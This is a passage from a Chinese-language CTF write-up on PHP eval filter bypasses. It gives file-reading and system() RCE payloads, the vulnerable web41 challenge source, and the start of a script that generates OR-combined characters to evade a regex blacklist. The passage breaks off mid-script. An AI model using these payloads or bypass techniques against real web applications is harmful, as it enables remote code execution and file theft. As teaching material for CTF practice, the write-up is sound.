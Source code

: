 详情看这里：

payload:

```
c=readfile(next(array_reverse(scandir(getcwd()))));

# 多刷新几次
c=readfile(array_rand(array_flip(scandir(getcwd()))));
readfile(array_rand(array_flip(scandir(current(localeconve())))));

wp：
c=session_start();system(session_id());
passid=ls
```

## web41~异或绕过

```php
<?php

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?> 
```

这个题过滤了`$、+、-、^、~`使得**异或自增和取反**构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符`|`。
 我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。
 这里先给出两个脚本 exp.py rce_or.php，大家以后碰到可以使用或运算绕过的可以自己手动修改下即可。
 `生成可用字符的集合`

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
```